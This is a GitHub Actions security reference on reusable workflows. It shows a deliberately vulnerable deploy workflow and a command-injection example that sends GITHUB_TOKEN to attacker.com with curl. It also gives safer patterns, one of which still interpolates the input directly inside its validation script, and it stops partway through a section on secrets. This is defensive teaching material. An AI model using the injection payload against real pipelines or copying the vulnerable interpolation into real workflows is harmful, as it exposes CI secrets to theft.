

# Reusable Workflow Security - Reference

This is the complete reference documentation extracted from the source.


# Reusable Workflow Security

Reusable workflows centralize logic but inherit the caller's security context. Unvalidated inputs, unrestricted callers, or unpinned workflow references create privilege escalation vectors and supply chain risks.

> **The Risk**
>
>
> Reusable workflows execute with the caller's GITHUB_TOKEN permissions and secret access. An attacker who controls workflow inputs can inject commands, exfiltrate secrets, or escalate privileges. Unpinned workflow references allow supply chain attacks when upstream workflows are compromised.
>

## Reusable Workflow Security Model

Reusable workflows inherit security context from the caller but must defend against malicious inputs and unauthorized callers.



## Secure Input Handling

Reusable workflow inputs are user-controlled data. Validate all inputs before use in shell commands or scripts.

### Input Types and Validation

GitHub Actions supports typed inputs with validation.

**Available Types**: `string`, `number`, `boolean`, `choice`, `environment`

**Validation**: Type checking, required fields, choice restrictions

### Dangerous: Unvalidated String Input

```yaml
# .github/workflows/reusable-deploy.yml
# DO NOT USE - COMMAND INJECTION VULNERABILITY
name: Reusable Deploy
on:
  workflow_call:
    inputs:
      environment:
        required: true
        type: string

jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      # DANGER: No input validation, allows command injection
      - run: ./scripts/deploy.sh ${{ inputs.environment }}
```

**Attack Vector**:

Caller passes `production; curl attacker.com?token=$GITHUB_TOKEN`

Command executes: `./scripts/deploy.sh production; curl attacker.com?token=$GITHUB_TOKEN`

Token exfiltrated to attacker server.

### Safe: Choice Input with Validation

```yaml
# .github/workflows/reusable-deploy.yml
name: Reusable Deploy
on:
  workflow_call:
    inputs:
      environment:
        required: true
        type: choice
        options:
          - dev
          - staging
          - production

permissions:
  contents: read
  id-token: write

jobs:
  deploy:
    runs-on: ubuntu-latest
    environment: ${{ inputs.environment }}
    steps:
      # Safe: choice type restricts to valid values
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1

      - uses: google-github-actions/auth@55bd3a7c6e2ae7cf1877fd1ccb9d54c0503c457c  # v2.1.2
        with:
          workload_identity_provider: ${{ secrets.WIF_PROVIDER }}
          service_account: ${{ secrets.WIF_SERVICE_ACCOUNT }}

      - name: Deploy to environment
        run: ./scripts/deploy.sh ${{ inputs.environment }}
```

### Safe: String Input with Runtime Validation

```yaml
# .github/workflows/reusable-deploy.yml
name: Reusable Deploy
on:
  workflow_call:
    inputs:
      environment:
        required: true
        type: string
        description: 'Deployment environment (dev, staging, production)'

permissions:
  contents: read
  id-token: write

jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      - name: Validate environment input
        run: |
          case "${{ inputs.environment }}" in
            dev|staging|production)
              echo "Valid environment: ${{ inputs.environment }}"
              ;;
            *)
              echo "::error::Invalid environment. Allowed: dev, staging, production"
              exit 1
              ;;
          esac

      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1

      - uses: google-github-actions/auth@55bd3a7c6e2ae7cf1877fd1ccb9d54c0503c457c  # v2.1.2
        with:
          workload_identity_provider: ${{ secrets.WIF_PROVIDER }}
          service_account: ${{ secrets.WIF_SERVICE_ACCOUNT }}

      - name: Deploy to environment
        env:
          ENVIRONMENT: ${{ inputs.environment }}
        run: ./scripts/deploy.sh "$ENVIRONMENT"
```

**Key Improvements**:

1. Runtime validation with allowlist
2. Error and exit on invalid input
3. Pass via environment variable to prevent injection
4. Quote variables in shell commands

### Input Validation Patterns

| Input Type | Use Case | Validation Strategy |
| ---------- | -------- | ------------------- |
| `choice` | Fixed set of values | GitHub validates automatically |
| `string` | Free-form text | Runtime validation with allowlist or regex |
| `number` | Numeric values | Type validation + range checking |
| `boolean` | True/false flags | Type validated, safe for conditionals |
| `environment` | Environment names | GitHub validates against repository environments |

### Complex Input Validation Example

```yaml
# .github/workflows/reusable-release.yml
name: Reusable Release
on:
  workflow_call:
    inputs:
      version:
        required: true
        type: string
        description: 'Semantic version (e.g., v1.2.3)'
      prerelease:
        required: false
        type: boolean
        default: false
      deploy:
        required: false
        type: boolean
        default: true

permissions:
  contents: write
  id-token: write

jobs:
  validate:
    runs-on: ubuntu-latest
    outputs:
      valid: ${{ steps.check.outputs.valid }}
    steps:
      - name: Validate version format
        id: check
        run: |
          VERSION="${{ inputs.version }}"

          # Validate semantic version format
          if [[ ! "$VERSION" =~ ^v[0-9]+\.[0-9]+\.[0-9]+(-[a-zA-Z0-9]+)?$ ]]; then
            echo "::error::Invalid version format. Expected: vX.Y.Z or vX.Y.Z-prerelease"
            exit 1
          fi

          echo "valid=true" >> $GITHUB_OUTPUT

  release:
    runs-on: ubuntu-latest
    needs: validate
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1

      - name: Create release
        env:
          VERSION: ${{ inputs.version }}
          PRERELEASE: ${{ inputs.prerelease }}
          GH_TOKEN: ${{ github.token }}
        run: |
          PRERELEASE_FLAG=""
          if [ "$PRERELEASE" = "true" ]; then
            PRERELEASE_FLAG="--prerelease"
          fi

          gh release create "$VERSION" $PRERELEASE_FLAG \
            --title "Release $VERSION" \
            --generate-notes

  deploy:
    runs-on: ubuntu-latest
    needs: release
    if: inputs.deploy == true
    environment: production
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1

      - uses: google-github-actions/auth@55bd3a7c6e2ae7cf1877fd1ccb9d54c0503c457c  # v2.1.2
        with:
          workload_identity_provider: ${{ secrets.WIF_PROVIDER }}
          service_account: ${{ secrets.WIF_SERVICE_ACCOUNT }}

      - name: Deploy release
        env:
          VERSION: ${{ inputs.version }}
        run: ./scripts/deploy-release.sh "$VERSION"
```

## Secret Inheritance Patterns

Reusable workflows can receive secrets explicitly or inherit all secrets. Always prefer explicit secret passing.

### Dangerous: `secrets: inherit`

```yaml
# Caller workflow
jobs:
  deploy:

